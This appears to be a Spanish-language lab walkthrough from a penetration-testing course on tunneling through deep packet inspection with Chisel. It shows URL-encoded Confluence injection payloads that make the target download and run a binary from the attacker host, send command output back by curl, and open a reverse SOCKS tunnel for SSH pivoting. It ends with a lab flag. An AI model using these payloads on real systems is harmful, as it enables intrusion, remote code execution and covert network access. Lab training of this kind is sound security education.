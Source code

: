 # Walk: Tunneling Through Deep Packet Inspection - HTTP Tunneling with Chisel - VM Group 1 

## Fecha: 30/03/2025
## Host: CONFLUENCE01
## IP: {IP}
## Objetivo
Start VM Group 1. Follow the steps in this section, and set up Chisel as a reverse SOCKS proxy. SSH into PGDATABASE01 and retrieve the flag from /tmp/chisel_flag.
## Herramientas
1. tool - 1
2. tool - 2
## Procedimiento y comandos
#### Paso 1: Configurar Servidor Chisel en kali
>Antes de iniciar el servidor, debemos copiar el binario del cliente Chisel a CONFLUENCE01. El servidor y el cliente Chisel se ejecutan desde el mismo binario; simplemente se inicializan con "server" o "client" como primer argumento
1. Levantamos un servidor, puede ser apache o python
- Alternativa python asuimendo que estemos en un directorio de trabajo
```
sudo cp $(which chisel) .
```
- Aternativa Apache
```
sudo cp $(which chisel) /var/www/html
```

#### Paso 2: Configurar Cliente Chisel en CONFLUENCE01
1. Creamos comando wget en CONFLUENCE01
```
wget {Kail_IP}/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
2. Codificamos el comando:
```
curl http://CONFLUENCE01_IP:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20{KALI_IP}/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

#### Paso 3: Iniciamos el servidor chisel desde kali
1. Ejecutamos servidor
```
chisel server --port 8080 --reverse
```
2. Registramos trafico con tcpdump
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```
#### Paso 4: Iniciamos el cliente chisel 
1. Creamos el comando que inyecta la inicializacion del cliente
```
/tmp/chisel client {Kali_Ip}:8080 R:socks > /dev/null 2>&1 &
```
2. Codificamos el comando:
```
curl http://{CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{kali_ip}:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
> No ocurre nada. No vemos tráfico en nuestra sesión Tcpdump y la salida del servidor Chisel no muestra actividad

## Troubleshooting
- Ejecución del cliente fallida
#### Solución
>Necesitamos encontrar una manera de leer la salida del comando, lo que podría indicarnos el problema. Así podremos resolverlo.

----------------------

1. Creamos el comando que nos diga la salida:

```
/tmp/chisel client {kali_ip]:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://{Confluence_ip}:8080/
```
2. Codificamos el comando:
```
curl http://{CONFLUENCE01_IP}:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{KALI_IP}:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://{KALI_IP}:8080/%27%29.start%28%29%22%29%7D/
```
- Luego de ejecutar el comando la salida de tcpdump incluye la siguiente información:
```
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```
Chisel intenta usar las versiones 2.32 y 2.34 de glibc, que el servidor CONFLUENCE01 no tiene. Hemos encontrado un error al intentar ejecutar una carga útil en un sistema de destino. Por lo tanto, debemos encontrar una carga útil alternativa que se ejecute.

```
┌──(root㉿kali)-[/home/kali/]
└─# chisel -h                                                                                                       

  Usage: chisel [command] [--help]

  Version: 1.10.1-0kali1 (go1.23.2)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```
La versión de Chisel que viene con esta versión de Kali es la 1.10.1. Sin embargo, hay otro detalle importante: se ha compilado con la versión 1.23.2 de Go.

El error aparece cuando los binarios compilados con las versiones 1.20 y posteriores de Go se ejecutan en sistemas operativos que no tienen una versión compatible de **glibc**

>Podemos probar el binario Chisel 1.8.1 compilado con Go 1.19 para Linux en procesadores AMD64. Está disponible en el Github principal de Chisel

1. Descargamos el binario:
```
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

gunzip chisel_1.8.1_linux_amd64.gz

```
2. Sobre escribimos en Confluence el binario:
```
curl http://CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20{KALI_IP}/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
3. Iniciamoes el cliente:
```
curl http://CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{KALI_IP}:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
>Tanto en el servidor chisel kali como en tcpdump deberiamos poder ver el trafico correctamente.

4. Comprobamos el tunel:
```
ss -ntplu

Netid     State      Recv-Q     Send-Q           Local Address:Port            Peer Address:Port     Process
udp       UNCONN     0          0                      0.0.0.0:34877                0.0.0.0:*
tcp       LISTEN     0          4096                 127.0.0.1:1080                 0.0.0.0:*         users:(("chisel",pid=501221,fd=8))
tcp       LISTEN     0          4096                         *:8080                       *:*         users:(("chisel",pid=501221,fd=6))
tcp       LISTEN     0          511                          *:80                         *:*

```

#### Paso 5: Configuramos un reverse shell a traves del tunel

Ejecutemos SSH a través de un proxy SOCKS. SSH no ofrece una opción genérica de línea de comandos para el proxy SOCKS. En su lugar, ofrece la opción de configuración **ProxyCommand**. Podemos escribirla en un archivo de configuración o pasarla como parte de la línea de comandos con **-o**

1. Ejecutamos ssh con el parametroy ProxyCommand:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@{HOST_IP}
```
#### Paso 6: Obtenemos el flag:

```
database_admin@pgdatabase01:/$ cat /tmp/chisel_flag
OS{a796***************************a635b2}
```
